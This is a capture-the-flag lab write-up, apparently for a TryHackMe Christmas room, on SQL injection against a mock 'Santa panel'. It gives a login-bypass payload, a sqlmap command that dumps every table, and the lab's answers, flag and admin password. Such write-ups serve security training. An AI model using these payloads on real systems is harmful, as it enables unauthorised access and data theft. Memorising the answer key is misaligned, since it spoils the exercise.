 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2848%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2830%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2843%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2813%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2834%29.png)

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2818%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2844%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

